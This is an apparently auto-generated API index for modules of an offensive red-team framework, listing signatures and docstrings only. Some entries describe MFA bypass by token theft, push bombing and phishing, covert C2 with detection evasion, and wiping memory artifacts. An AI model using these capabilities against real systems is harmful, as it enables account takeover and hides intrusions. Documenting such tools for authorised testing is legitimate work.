- `__init__` (line 61) `def __init__(self, config)`
- `windows_memory_cleanup` (line 64) `def windows_memory_cleanup(self)` - *Generate Windows memory artifact cleanup commands.

Returns:
    Dict with PowerShell and native commands for memory cleanup.*
- `linux_memory_cleanup` (line 151) `def linux_memory_cleanup(self)` - *Generate Linux memory artifact cleanup commands.

Returns:
    Dict with bash commands for Linux memory cleanup.*
- `macos_memory_cleanup` (line 206) `def macos_memory_cleanup(self)` - *Generate macOS memory artifact cleanup commands.

Returns:
    Dict with zsh commands for macOS memory cleanup.*
- `generate_on_exit_script` (line 255) `def generate_on_exit_script(self)` - *Generate an on-exit cleanup script for beacons.

When a beacon is about to terminate, this script runs to clean
all in-memory artifacts before process exit.

Returns:
    Dict with per-platform on-exit scripts.*

#### `memory_store.py`
**Path:** `modules/memory_store.py`
**File Doc:** *memory_store.py — Episodic memory for the LazyOwn auto_loop.  Stores (command, output, findings, host, tool, success) per session and retrieves relevant past experiences via SQLite FTS5 keyword search. Optionally uses numpy for cosine similarity when available.*

**Classes:**
- `MemoryEntry` (line 81) `class MemoryEntry`
- `StorageBackend` (line 94) `class StorageBackend(ABC)`
- `SQLiteBackend` (line 129) `class SQLiteBackend(StorageBackend)`
- `MemoryStore` (line 234) `class MemoryStore`

**Functions:**
- `_row_to_entry` (line 114) `def _row_to_entry(row)`
- `get_memory_store` (line 303) `def get_memory_store()`
- `remember` (line 312) `def remember(session_id, host, tool, command, output, findings, success)`
- `recall` (line 324) `def recall(query, top_k)`
- `_print_entries` (line 328) `def _print_entries(entries)`
- `_cli` (line 341) `def _cli()`

**Methods:**
- `save` (line 96) `def save(self, entry)`
- `search` (line 99) `def search(self, query, top_k)`
- `by_host` (line 102) `def by_host(self, host, top_k)`
- `by_service` (line 105) `def by_service(self, service, top_k)`
- `all_entries` (line 108) `def all_entries(self, limit)`
- `close` (line 111) `def close(self)`
- `__init__` (line 130) `def __init__(self, db_path)`
- `_connect` (line 136) `def _connect(self)`
- `save` (line 145) `def save(self, entry)`
- `_fetch` (line 172) `def _fetch(self, sql, params)`
- `search` (line 177) `def search(self, query, top_k)`
- `by_host` (line 189) `def by_host(self, host, top_k)`
- `by_service` (line 200) `def by_service(self, service, top_k)`
- `all_entries` (line 212) `def all_entries(self, limit)`
- `stats_raw` (line 222) `def stats_raw(self)`
- `close` (line 229) `def close(self)`
- `__init__` (line 237) `def __init__(self, backend)`
- `remember` (line 240) `def remember(self, session_id, host, tool, command, output, findings, success)`
- `recall` (line 267) `def recall(self, query, top_k)`
- `recall_by_host` (line 270) `def recall_by_host(self, host, top_k)`
- `recall_for_service` (line 273) `def recall_for_service(self, service_name, top_k)`
- `stats` (line 276) `def stats(self)`
- `export_finetuning_dataset` (line 284) `def export_finetuning_dataset(self, path)`

#### `metrics.py`
**Path:** `modules/metrics.py`
**File Doc:** *LazyOwn metrics surface.  Two complementary subsystems live here:  * :class:`MetricsRegistry` (with the :data:`REGISTRY` singleton) — an in-memory Prometheus-style counter registry used by the C2 stack to expose live operational counters. Kept for backwards compatibility with ``lazyc2.py`` and ``modules.c2_builder``. * :class:`MetricsRecorder` (with the :func:`get_recorder` singleton) — a durable append-only telemetry log written to ``sessions/metrics.jsonl``. Every command the operator executes through the cmd2 shell (and any other caller that opts in) is recorded so post-hoc analysis can answer "which commands fail most", "what is the p95 duration of nmap" or "where does the autonomous daemon stall".  The recorder splits responsibilities to keep each class small:  * :class:`MetricsWriter` only knows how to append a record to disk. * :class:`MetricsAggregator` only knows how to compute summary statistics. * :class:`MetricsRecorder` composes both behind a single public API.  Appends use a process-wide :class:`threading.Lock` so concurrent post-command hooks (cmd2, autonomous daemon, MCP tool) cannot interleave half-written lines. Writes are line-atomic but not durable across power loss; that is an acceptable trade-off for telemetry data.*

**Classes:**
- `MetricsRegistry` (line 54) `class MetricsRegistry` - *Thread-safe in-memory counter registry used by the C2 stack.

Counters are addressed by a name and an optional label dictionary; both
pieces compose to form a series key. The registry can render itself in
Prometheus exposition format when a scraper hits the C2 metrics
endpoint.*
- `MetricRecord` (line 146) `class MetricRecord` - *One entry in ``sessions/metrics.jsonl``.

Attributes:
    ts: ISO-8601 UTC timestamp captured at command completion.
    command: Command verb as typed by the operator (first token).
    args: Remaining argument string. May be empty.
    duration_ms: Wall-clock duration in milliseconds. Non-negative.
    success: Heuristic success flag derived from the caller's exit code.
    exit_code: Underlying process exit code. ``None`` when not measurable.
    source: Coarse origin tag (e.g. ``"cli"``, ``"daemon"``, ``"mcp"``).*
- `MetricsWriter` (line 181) `class MetricsWriter` - *Thread-safe append-only writer for :data:`METRICS_FILE`.

The writer owns the lock and the file handle lifecycle but never
decides *what* to write; callers compose a :class:`MetricRecord` and
pass it in.*
- `MetricsAggregator` (line 226) `class MetricsAggregator` - *Pure aggregation over an in-memory list of records.

Separated from the writer so the same statistics can be computed over
a test fixture without touching disk.*
- `MetricsRecorder` (line 332) `class MetricsRecorder` - *Compose a :class:`MetricsWriter` and :class:`MetricsAggregator`.

Operators interact only with this class through the module-level
singleton returned by :func:`get_recorder`.*

**Functions:**
- `_labels_key` (line 126) `def _labels_key(labels)` - *Render a label dictionary as a deterministic Prometheus key fragment.

Args:
    labels: Label dictionary, possibly empty.

Returns:
    A comma-separated ``key="value"`` string, or the empty string when
    no labels are provided.*
- `get_recorder` (line 452) `def get_recorder()` - *Return the process-wide :class:`MetricsRecorder` singleton.

The first call constructs a recorder bound to :data:`METRICS_FILE`.
Subsequent calls return the same instance. Thread-safe.*
- `reset_recorder_for_tests` (line 466) `def reset_recorder_for_tests(writer)` - *Replace the module-level recorder with a fresh instance.

Intended exclusively for tests that need to redirect the JSONL path.

Args:
    writer: Optional writer to inject. When omitted a default writer
        against :data:`METRICS_FILE` is used.

Returns:
    The newly installed recorder.*

**Methods:**
- `__init__` (line 63) `def __init__(self)` - *Create an empty registry with its own lock.*
- `inc` (line 69) `def inc(self, name, labels, value)` - *Increment the named counter for the given labels.

Args:
    name: Counter name.
    labels: Optional dictionary of label values forming a series.
    value: Amount to add; defaults to ``1``.*
- `get` (line 87) `def get(self, name, labels)` - *Return the current value of a counter.

Args:
    name: Counter name.
    labels: Optional label dictionary identifying the series.

Returns:
    The current integer value (``0`` when the series has never
    been incremented).*
- `prometheus_text` (line 107) `def prometheus_text(self)` - *Render every counter in Prometheus text exposition format.

Returns:
    A newline-delimited Prometheus payload ready to be served as
    ``text/plain``.*
- `to_dict` (line 167) `def to_dict(self)` - *Return the record as a JSON-serialisable dictionary.*
- `__init__` (line 189) `def __init__(self, path)` - *Initialise the writer.

Args:
    path: Destination JSONL file. Parent directory is created on
        first append so empty sessions work too.*
- `path` (line 201) `def path(self)` - *Return the JSONL destination path.*
- `append` (line 206) `def append(self, record)` - *Append a single record to disk.

Failures are logged at debug level and swallowed: telemetry must
never break the calling command.

Args:
    record: The record to persist.*
- `_percentile` (line 234) `def _percentile(values, percentile)` - *Return the nearest-rank percentile of *values* in milliseconds.

Args:
    values: Monotonically increasing list of integer durations.
        The caller is responsible for sorting; this helper does
        not.
    percentile: Target percentile in the closed interval
        ``[0, 1]``.

Returns:
    The selected duration, or zero when *values* is empty.*
- `summarize` (line 254) `def summarize(cls, records, window_seconds, now_utc)` - *Compute aggregate statistics over the supplied records.

Args:
    records: Iterable of decoded JSONL entries.
    window_seconds: If set, ignore records older than this many
        seconds relative to *now_utc*.
    now_utc: Reference timestamp for the window. Defaults to the
        current UTC time. Supplied explicitly in tests.

Returns:
    A dictionary with keys ``total``, ``window_seconds``,
    ``by_command`` and ``top_failures``.*
- `__init__` (line 339) `def __init__(self, writer)` - *Initialise the recorder.

Args:
    writer: Writer instance to use. Injected in tests; defaults to
        a writer pointing at :data:`METRICS_FILE`.*
- `path` (line 350) `def path(self)` - *Return the JSONL path used by the underlying writer.*
- `record` (line 355) `def record(self, command, args, duration_ms, success, exit_code, source)` - *Persist a single command-execution telemetry record.

Args:
    command: First token of the operator-typed command.
    args: Remaining argument string (may be empty).
    duration_ms: Wall-clock duration in milliseconds, clamped to a
        non-negative integer.
    success: Heuristic success flag.
    exit_code: Underlying process exit code, when known.
    source: Coarse origin tag.*
- `_read_all` (line 388) `def _read_all(self)` - *Return every record currently present in the JSONL file.

Lines that fail to decode are skipped with a debug log entry.

Returns:
    A list of decoded records, oldest first. Empty when the file
    does not exist or is unreadable.*
- `summarize` (line 416) `def summarize(self, window_seconds)` - *Return aggregate statistics over recorded events.

Args:
    window_seconds: Restrict the calculation to events from the
        last *N* seconds. ``None`` aggregates the whole file.

Returns:
    Dictionary as documented in
    :meth:`MetricsAggregator.summarize`.*
- `tail` (line 430) `def tail(self, n)` - *Return the most recent *n* records, newest first.

Args:
    n: Number of records to return. Clamped to
        :data:`MAX_TAIL_LINES`.

Returns:
    A list of records in reverse chronological order.*

#### `mfa_bypass.py`
**Path:** `modules/mfa_bypass.py`
**File Doc:** *MFA Bypass Toolkit — techniques for circumventing multi-factor authentication.  Provides automated and manual techniques for: - Token theft and replay (session cookies, OAuth tokens, SAML assertions) - MFA fatigue/push bombing automation - Evilginx-style reverse proxy credential + token harvesting - SAML/OAuth golden ticket attacks - MFA enrollment abuse (enrolling attacker-controlled MFA device) - Legacy protocol bypass (IMAP, POP3, SMTP with legacy auth)  Integrates with phishing_orchestrator.py for automated campaigns.*

**Classes:**
- `MFATarget` (line 103) `class MFATarget`
- `MFABypassResult` (line 113) `class MFABypassResult`
- `MFABypassEngine` (line 121) `class MFABypassEngine` - *MFA bypass planning and execution engine.

Args:
    sessions_dir: Output directory for captured tokens and evidence.*

**Methods:**
- `__init__` (line 128) `def __init__(self, sessions_dir)`
- `enumerate_techniques` (line 133) `def enumerate_techniques(self, target)` - *Enumerate viable MFA bypass techniques for a given target.

Args:
    target: MFATarget object with domain and IDP information.

Returns:
    List of applicable technique dicts sorted by viability.*
- `generate_phishing_templates` (line 153) `def generate_phishing_templates(self, target)` - *Generate phishing templates tailored for MFA bypass.

Args:
    target: MFATarget with domain and IDP type.

Returns:
    List of dicts with template_name and html_content keys.*
- `mfa_conditional_access_scan` (line 223) `def mfa_conditional_access_scan(self, domain)` - *Scan for conditional access policy gaps.

Returns commands to enumerate CA policies and identify
applications excluded from MFA requirements.

Args:
    domain: Target domain for Azure AD/Entra enumeration.

Returns:
    Dict with scan commands and expected output indicators.*
- `replay_oauth_token` (line 252) `def replay_oauth_token(self, access_token, refresh_token)` - *Test if an OAuth2 token is still valid and can be replayed.

Args:
    access_token: OAuth2 access token.
    refresh_token: Optional OAuth2 refresh token.

Returns:
    Dict with validation results.*
- `saml_golden_ticket_check` (line 278) `def saml_golden_ticket_check(self, adfs_server)` - *Check for ADFS token signing certificate exposure.

Args:
    adfs_server: ADFS server hostname or IP.

Returns:
    Dict with ADFS reconnaissance commands.*
- `export_report` (line 303) `def export_report(self)` - *Export MFA bypass results to a JSON report.

Returns:
    Path to the report file.*

#### `module_registry.py`
**Path:** `modules/module_registry.py`
**File Doc:** *Unified module registry for LazyOwn — catalog, search, use/run workflow.  Scans ``lazyaddons/`` (YAML), ``plugins/`` (Lua + YAML), ``modules/`` (Python), ``tools/`` (pwntomate), and ``playbooks/`` for all discoverable modules. Every module is indexed with its metadata (name, author, version, category, description, params) for ``show exploits`` / ``search`` / ``info`` / ``use`` / ``run``.*

**Classes:**
- `ModuleInfo` (line 150) `class ModuleInfo` - *Metadata for a single discoverable module.

Attributes:
    name: Short module name (e.g. ``nuclei``).
    module_type: One of ``exploit``, ``scanner``, ``auxiliary``,
        ``post``, ``payload``.
    author: Original author or tool maintainer.
    version: Tool version string.
    description: Human-readable summary.
    category: Kill-chain category label.
    path: Absolute filesystem path to the module definition.
    source: Where it was loaded from (``yaml``, ``lua``, ``python``,
        ``pwntomate``, ``playbook``).
    params: List of parameter dicts (name, type, required, default,
        description).
    enabled: Whether the module is active.
    deprecated: Whether the module is superseded.
    replaced_by: Name of the replacement module.
    deprecation_message: Human-readable migration guidance.*
- `ModuleRegistry` (line 223) `class ModuleRegistry` - *Scans and indexes all discoverable modules in the framework.

The registry is a singleton per process — call
:func:`ModuleRegistry.get_instance` or just construct one and reuse it.

Args:
    base_dir: Root directory of the LazyOwn project.*

**Functions:**
- `_classify` (line 47) `def _classify(category)`
- `_classify_module_source` (line 118) `def _classify_module_source(name, source)` - *Classify a Python module by its name and source content.*
- `_extract_docstring_summary` (line 136) `def _extract_docstring_summary(source)` - *Extract the first line of a module's docstring.*
- `format_module_table` (line 542) `def format_module_table(modules, cols)` - *Format a list of modules as an aligned text table.

Args:
    modules: Module list to format.
    cols: Column keys to include (in order). Valid keys: ``id``,
        ``name``, ``type``, ``author``, ``version``, ``description``.

Returns:
    Multi-line string with aligned columns.*
- `format_module_detail` (line 589) `def format_module_detail(m)` - *Format a single module's full metadata.*

**Methods:**
- `__init__` (line 172) `def __init__(self, name, module_type, author, version, description, category, path, source, params, enabled, deprecated, replaced_by, deprecation_message)`
- `to_dict` (line 202) `def to_dict(self)`
- `__repr__` (line 219) `def __repr__(self)`
- `__init__` (line 235) `def __init__(self, base_dir)`
- `get_instance` (line 241) `def get_instance(cls, base_dir)` - *Return the singleton registry instance.*
- `scan` (line 247) `def scan(self)` - *Scan all module directories and return the full list.*
- `rescan` (line 260) `def rescan(self)` - *Force a full rescan and return modules.*
- `get` (line 269) `def get(self, name)` - *Get a module by name.*
- `search` (line 275) `def search(self, query, module_type, category, enabled_only, include_deprecated)` - *Search indexed modules.

Args:
    query: Free-text search in name, description, author.
    module_type: Filter by type (``exploit``, ``scanner``, ...).
    category: Filter by kill-chain category.
    enabled_only: Only return enabled modules.
    include_deprecated: Include deprecated modules in results.

Returns:
    List of matching :class:`ModuleInfo`.*
- `deprecated_modules` (line 315) `def deprecated_modules(self)` - *Return all deprecated modules.*
- `by_type` (line 321) `def by_type(self, module_type)` - *Shorthand for ``search(module_type=module_type)``.*
- `summary` (line 325) `def summary(self)` - *Return counts by module type.*
- `_scan_yaml_addons` (line 338) `def _scan_yaml_addons(self)`
- `_scan_plugins` (line 379) `def _scan_plugins(self)`
- `_scan_tools` (line 419) `def _scan_tools(self)`
- `_scan_playbooks` (line 453) `def _scan_playbooks(self)`
- `_scan_python_modules` (line 473) `def _scan_python_modules(self)` - *Scan ``modules/`` for Python files with discoverable entry points.*
- `_looks_discoverable` (line 503) `def _looks_discoverable(source)` - *Heuristic: a module is discoverable if it defines a runnable entry point.*
- `_load_yaml` (line 517) `def _load_yaml(path)`
- `__len__` (line 526) `def __len__(self)`
- `__iter__` (line 531) `def __iter__(self)`
- `__contains__` (line 536) `def __contains__(self, name)`

#### `moe_router.py`
**Path:** `modules/moe_router.py`
**File Doc:** *modules/moe_router.py ====================== Mixture-of-Experts (MoE) Router for LazyOwn.  Routes penetration-testing tasks to the most capable available LLM expert based on task type, learned performance history, and detection risk.  Architecture ------------ task_type + goal | MoERouter.route() /       |       \\ groq_fast  groq_powerful  ollama_reason  ... \\       |       / ExpertPerformanceStore (JSON) | SoftmaxSelector (temperature-scaled softmax over RL-adjusted weights)  Design principles ----------------- - Single Responsibility : each class owns one concept - Open/Closed           : new experts added to _DEFAULT_EXPERTS list only - Liskov Substitution   : IExpertSelector defines the routing contract - Interface Segregation : separate read/write interfaces for performance store - Dependency Inversion  : MoERouter depends on IExpertSelector, not on concrete impl*

**Classes:**
- `ExpertProfile` (line 83) `class ExpertProfile` - *Static description of a single expert model.*
- `ExpertPerformance` (line 101) `class ExpertPerformance` - *Mutable per-(expert_id, task_type) performance record.*
- `IExpertSelector` (line 257) `class IExpertSelector(ABC)` - *Contract for expert selection strategies.*
- `ExpertPerformanceStore` (line 276) `class ExpertPerformanceStore` - *Persists per-(expert_id, task_type) performance records to JSON.

Thread-safe via RLock.*
- `SoftmaxSelector` (line 368) `class SoftmaxSelector(IExpertSelector)` - *Selects an expert using temperature-scaled softmax over adjusted weights.

Higher weight → higher probability. Temperature controls exploration:
- High temperature (>1.0): near-uniform distribution (more exploration)
- Low temperature (<1.0): sharpened towards best expert (exploitation)*
- `ExpertAvailabilityChecker` (line 437) `class ExpertAvailabilityChecker` - *Checks whether the backend for an expert is reachable.
Results are cached for _AVAIL_CACHE_TTL_S seconds to avoid hammering APIs.*
- `MoERouter` (line 489) `class MoERouter` - *Top-level Mixture-of-Experts router.

Maintains the expert registry, availability cache, and performance store.
Provides route() for single-expert selection and ensemble() for multi-expert.

Dependency Inversion: accepts IExpertSelector so the selection strategy
can be swapped (e.g., replace SoftmaxSelector with Q-learning selector).*

**Functions:**
- `_softmax` (line 423) `def _softmax(values, temperature)` - *Numerically stable temperature-scaled softmax.*
- `_load_groq_key` (line 665) `def _load_groq_key()`
- `get_router` (line 684) `def get_router(api_key)` - *Return (or create) the module-level singleton MoERouter.*
- `adjusted_weight` (line 562) `def adjusted_weight(ep)`

**Methods:**
- `is_local` (line 96) `def is_local(self)`
- `update` (line 115) `def update(self, reward, detection_prob)`
- `select` (line 261) `def select(self, candidates, task_type, performance_store, deterministic)` - *Return the selected expert from candidates.*
- `__init__` (line 283) `def __init__(self, path)`
- `_key` (line 293) `def _key(expert_id, task_type)`
- `record` (line 298) `def record(self, expert_id, task_type, reward, detection_prob)` - *Update performance for (expert, task_type) and persist.*
- `get` (line 316) `def get(self, expert_id, task_type)`
- `all_for_task` (line 321) `def all_for_task(self, task_type)`
- `performance_bonus` (line 325) `def performance_bonus(self, expert_id, task_type)` - *Return a bonus scalar in [-0.3, +0.5] based on EMA reward history.
Positive for above-average performance, negative for below-average.*
- `_save` (line 341) `def _save(self)`
- `_load` (line 350) `def _load(self)`
- `__init__` (line 377) `def __init__(self, temperature)`
- `temperature` (line 381) `def temperature(self)`
- `temperature` (line 385) `def temperature(self, value)`
- `select` (line 388) `def select(self, candidates, task_type, performance_store, deterministic)`
- `_compute_weights` (line 410) `def _compute_weights(candidates, task_type, store)`
- `__init__` (line 443) `def __init__(self)`
- `is_available` (line 447) `def is_available(self, expert, api_key)`
- `_check` (line 458) `def _check(expert, api_key)`
- `__init__` (line 500) `def __init__(self, experts, selector, performance_store, api_key)`
- `route` (line 515) `def route(self, task_type, goal, deterministic)` - *Return the single best expert for the given task_type.

Parameters
----------
task_type:    Action category (recon/exploit/credential/lateral/…)
goal:         The task description (used for future prompt-aware routing)
deterministic: When True, return argmax instead of sampling.*
- `ensemble` (line 547) `def ensemble(self, task_type, goal, n)` - *Return up to *n* distinct experts for ensemble execution.
Experts are sorted by adjusted weight (best first).*
- `record_outcome` (line 575) `def record_outcome(self, expert_id, task_type, reward, detection_prob)` - *Record the outcome of an expert execution.
Updates the performance store and adjusts the selector temperature.*
- `top_experts_for_task` (line 589) `def top_experts_for_task(self, task_type, top_k)` - *Return (expert, adjusted_weight) sorted descending for diagnostics.*
- `get_expert` (line 605) `def get_expert(self, expert_id)` - *Return expert by ID, or None.*
- `status_report` (line 609) `def status_report(self)` - *Return a diagnostic snapshot of all experts and their weights.*
- `_available_for_task` (line 640) `def _available_for_task(self, task_type)`
- `_anneal_temperature` (line 645) `def _anneal_temperature(self)` - *Gradually lower the softmax temperature as more data accumulates.
More data → more confident routing → lower temperature (exploitation).
Minimum temperature is capped at 0.5 to preserve some exploration.*

#### `morse.py`
**Path:** `modules/morse.py`
**File Doc:** *Morse code conversion service with interactive driver.  Contract: Single self-contained module providing text to Morse code conversion, Morse code to text conversion, and an interactive selection driver. No placeholders, no simplifications, production grade input handling.*

**Classes:**
- `MorseConfig` (line 16) `class MorseConfig` - *Centralized configuration for the Morse module.*

**Functions:**
- `reverse_morse_code` (line 98) `def reverse_morse_code()` - *Build the reverse lookup table from Morse code to characters.

Returns:
    Mapping of Morse code sequences to uppercase characters.*
- `text_to_morse` (line 109) `def text_to_morse(text, config)` - *Convert plain text to Morse code.

Args:
    text: Source text to encode.
    config: Module configuration.

Returns:
    Morse code representation with word and letter separators.*
- `morse_to_text` (line 130) `def morse_to_text(morse_code, config)` - *Convert Morse code back to plain text.

Args:
    morse_code: Morse code string using configured separators.
    config: Module configuration.

Returns:
    Decoded uppercase text.*
- `clear_screen` (line 157) `def clear_screen(config)` - *Reset the terminal screen using a bounded subprocess call.

Args:
    config: Module configuration.*
- `read_choice` (line 171) `def read_choice(config)` - *Read and validate the menu choice from standard input.

Args:
    config: Module configuration.

Returns:
    Valid menu choice, or None when input is not a number.*
- `run_driver` (line 186) `def run_driver(config)` - *Run the interactive Morse code conversion loop.

Args:
    config: Module configuration.

Raises:
    EOFError: Propagated when standard input closes.*

#### `network_opsec.py`
**Path:** `modules/network_opsec.py`
**File Doc:** *Network OPSEC — proxy chain enforcement, canary detection, traffic randomization.  Provides network-level operational security: SOCKS5 → HTTP → SSH tunnel proxy chain management, canary token detection (verify if traffic is being analyzed), source port randomization, connection jitter scheduling, and DNS-over-HTTPS resolution to avoid DNS logging.  All configurations derive from payload.json with sensible defaults for covert C2 communication.*

**Classes:**
- `NetworkOpsecConfig` (line 23) `class NetworkOpsecConfig` - *Configuration for network OPSEC measures.

Attributes:
    proxy_chain: Ordered list of proxy URIs (e.g. ['socks5://127.0.0.1:1080', 'http://proxy:8080']).
    dns_over_https: Use DoH for DNS resolution (avoids DNS logging).
    doh_provider: DoH resolver URL.
    source_port_range: Random source port range (min, max).
    connection_jitter_ms: Random delay before establishing connections.
    canary_domains: Domains to check for canary tokens in DNS.
    canary_urls: URLs to check for web bug canaries.
    sni_randomization: Randomize TLS SNI field.
    tls_version_override: Force a specific TLS version.
    tcp_fast_open: Use TCP fast open to reduce handshake signatures.
    proxy_bypass_local: Don't route local traffic through proxies.*
- `NetworkOpsecEngine` (line 53) `class NetworkOpsecEngine` - *Manage network-level operational security for C2 and exfiltration.

Configures proxy chains, enforces DNS-over-HTTPS, randomizes
connection parameters, and detects canary/deception tokens.

Attributes:
    config: NetworkOpsecConfig with proxy and randomization settings.
    active_proxies: Currently verified proxy connections.*

**Methods:**
- `__init__` (line 83) `def __init__(self, config)`
- `configure_proxy_chain` (line 87) `def configure_proxy_chain(self, chain_type)` - *Configure a proxy chain for C2 communication.

Args:
    chain_type: Preset chain configuration name.

Returns:
    Dict with chain configuration and environment setup.*
- `_build_proxychains_config` (line 119) `def _build_proxychains_config(proxies)`
- `check_canary_tokens` (line 131) `def check_canary_tokens(self)` - *Check if the target has canary token / deception technology.

Analyzes DNS names, HTTP response headers, and behavioral
indicators for signs of canary tokens or honeypot deployment.

Returns:
    Dict with detection results and risk assessment.*
- `analyze_traffic_with_canary_check` (line 179) `def analyze_traffic_with_canary_check(self, target_host, target_port)` - *Analyze whether target traffic is being intercepted or analyzed.

Uses TLS fingerprint analysis, response header inspection, and
timing analysis to detect TLS inspection proxies or packet capture.

Args:
    target_host: Target hostname or IP.
    target_port: Target port.

Returns:
    Dict with traffic analysis results.*
- `dns_over_https_config` (line 246) `def dns_over_https_config(self)` - *Generate DNS-over-HTTPS configuration for proxy and system.

Returns:
    Dict with DoH configuration commands for curl, python, and system.*
- `source_port_randomize` (line 269) `def source_port_randomize(self)` - *Randomize source port for outbound connections.

Returns:
    Dict with port randomization commands for iptables, python sockets, etc.*
- `connection_jitter_schedule` (line 294) `def connection_jitter_schedule(self, beacon_interval)` - *Generate a jitter schedule for beacon connections.

Returns a list of sleep durations that appear irregular but stay
within the requested jitter window. This prevents pattern-based
detection in netflow/SIEM correlation.

Args:
    beacon_interval: Base sleep interval in seconds.

Returns:
    List of jittered sleep durations.*
- `canary_detection_setup` (line 317) `def canary_detection_setup(self)` - *Set up canary detection for the engagement.

Generates canary tokens at configurable intervals to detect
if stolen data or credentials are being actively monitored.

Returns:
    Dict with canary setup commands and monitoring instructions.*
- `summary` (line 349) `def summary(self)`

#### `nmap2csv.py`
**Path:** `modules/nmap2csv.py`
**File Doc:** *This file is part of nmaptocsv.  Copyright (C) 2012, 2019 Thomas Debize <tdebize at mail.com> All rights reserved.  nmaptocsv is free software: you can redistribute it and/or modify it under the terms of the GNU Lesser General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.  nmaptocsv is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the GNU Lesser General Public License for more details.  You should have received a copy of the GNU Lesser General Public License along with nmaptocsv.  If not, see <http://www.gnu.org/licenses/>.   Global imports*

**Classes:**
- `Host` (line 176) `class Host`
- `Port` (line 282) `class Port`

**Functions:**
- `dottedquad_to_num` (line 126) `def dottedquad_to_num(ip)` - *Convert decimal dotted quad string IP to long integer*
- `num_to_dottedquad` (line 133) `def num_to_dottedquad(n)` - *Convert long int IP to dotted quad string*
- `unique_match_from_list` (line 140) `def unique_match_from_list(list)` - *Check the list for a potential pattern match

@param list : a list of potential matching groups

@rtype : return the string representation of the unique value that matched, or nothing if nothing matched*
- `extract_matching_pattern` (line 156) `def extract_matching_pattern(regex, group_name, unfiltered_list)` - *Return the desired group_name from a list of matching patterns

@param regex : a regular expression with named groups
@param group_name : the desired matching group name value
@param unfiltered_list : a list of matches

@rtype : the string value*
- `split_grepable_match` (line 315) `def split_grepable_match(raw_string)` - *Split the raw line to a neat Host object

@param raw_string : the whole 'Host' line

@rtype : return an Host object*
- `parse` (line 362) `def parse(fd)` - *Parse the data according to several regexes

@param fd : input file descriptor, could be a true file or stdin

@rtype : return a list of <Host> objects indexed from their numerical IP representation*
- `parse_xml` (line 492) `def parse_xml(xml_file)` - *Parse the XML file

@param xml_file : the input file

@rtype : return a list of <Host> objects indexed from their numerical IP representation*
- `is_format_valid` (line 572) `def is_format_valid(fmt)` - *Check for the supplied custom output format

@param fmt : the supplied format

@rtype : True or False*
- `formatted_item` (line 606) `def formatted_item(host, format_item)` - *return the attribute value related to the host

@param host : host object
@param format_item : the attribute supplied in the custom format

@rtype : the <list> attribute value*
- `repeat_attributes` (line 639) `def repeat_attributes(attribute_list)` - *repeat attribute lists to the maximum for the

@param attribute_list : raw list with different attribute list length

@rtype : a list consisting of length equal attribute list*
- `generate_csv` (line 653) `def generate_csv(fd, results, options)` - *Generate a plain ';' separated csv file with the desired or default attribute format

@param fd : output file descriptor, could be a true file or stdout*
- `main` (line 688) `def main()`

**Methods:**
- `__init__` (line 177) `def __init__(self, ip, fqdn)`
- `add_port` (line 188) `def add_port(self, port)`
- `get_ip_num_format` (line 192) `def get_ip_num_format(self)`
- `get_ip_dotted_format` (line 195) `def get_ip_dotted_format(self)`
- `get_fqdn` (line 198) `def get_fqdn(self)`
- `get_rdns_record` (line 201) `def get_rdns_record(self)`
- `get_port_list` (line 204) `def get_port_list(self)`
- `get_port_number_list` (line 207) `def get_port_number_list(self)`
- `get_port_protocol_list` (line 216) `def get_port_protocol_list(self)`
- `get_port_service_list` (line 225) `def get_port_service_list(self)`
- `get_port_version_list` (line 234) `def get_port_version_list(self)`
- `get_port_script_list` (line 243) `def get_port_script_list(self)`
- `get_os` (line 252) `def get_os(self)`
- `get_mac_address` (line 255) `def get_mac_address(self)`
- `get_mac_address_vendor` (line 258) `def get_mac_address_vendor(self)`
- `get_network_distance` (line 261) `def get_network_distance(self)`
- `set_fqdn` (line 265) `def set_fqdn(self, fqdn)`
- `set_rdns_record` (line 268) `def set_rdns_record(self, rdns_record)`
- `set_os` (line 271) `def set_os(self, os)`
- `set_mac` (line 274) `def set_mac(self, mac_address, mac_address_vendor)`
- `set_network_distance` (line 278) `def set_network_distance(self, network_distance)`
- `__init__` (line 283) `def __init__(self, number, protocol, service, version, script)`
- `get_number` (line 290) `def get_number(self)`
- `get_protocol` (line 293) `def get_protocol(self)`
- `get_service` (line 296) `def get_service(self)`
- `get_version` (line 299) `def get_version(self)`
- `get_script` (line 302) `def get_script(self)`
- `set_service` (line 305) `def set_service(self, service)`
- `set_version` (line 308) `def set_version(self, version)`
- `set_script` (line 311) `def set_script(self, script)`

#### `notify.py`
**Path:** `modules/notify.py`
**File Doc:** *Stateless multi-channel notifier for finding events.  Ports the LAZY notify contract. Channels stay stateless so one instance serves many configurations concurrently. Severity filters drop noise and secret patterns are masked before dispatch.*

**Classes:**
- `NotifyConfig` (line 15) `class NotifyConfig` - *Centralized constants for notification behavior (LAZY parity).*
- `NotifyMessage` (line 173) `class NotifyMessage` - *Event payload awaiting channel fan-out.*
- `Channel` (line 186) `class Channel` - *Single destination with its own filter and credentials.*
- `Notifier` (line 204) `class Notifier` - *Filter, render, and dispatch messages across channels.*
- `_GuardRedirect` (line 158) `class _GuardRedirect(HTTPRedirectHandler)`

**Functions:**
- `severity_rank` (line 31) `def severity_rank(severity, config)` - *Return the comparable order for a severity label.*
- `mask_secrets` (line 39) `def mask_secrets(text, config)` - *Replace known secret prefixes with a redaction marker.*
- `url_allowed` (line 57) `def url_allowed(url)` - *SSRF dial-guard for webhook delivery (LAZY parity).

Denies cloud metadata hosts/IPs always, denies loopback/link-local/
private/unspecified/multicast/reserved unless
``LAZY_NOTIFY_ALLOW_LOCAL=1``, denies userinfo credentials in the URL,
and resolves DNS names to catch metadata-address aliases. Redirects
must be re-checked by the caller with this same function.

Returns (allowed, reason).*
- `post_url_validated` (line 145) `def post_url_validated(url, data, timeout)` - *POST data to a webhook URL after SSRF validation, guarding redirects.

Each redirect target is re-validated with :func:`url_allowed`; a
denied redirect aborts without following it. Raises ValueError on a
denied URL and OSError on transport failure.*
- `_addr_denied` (line 105) `def _addr_denied(addr)`

**Methods:**
- `__post_init__` (line 198) `def __post_init__(self)` - *Validate channel kind and event compatibility.*
- `__init__` (line 207) `def __init__(self, config)` - *Initialize with shared notification constants.*
- `should_send` (line 215) `def should_send(self, message, channel)` - *Apply event, severity, keyword and scope gates (LAZY parity).*
- `render` (line 238) `def render(self, message)` - *Render masked Markdown text for a message.*
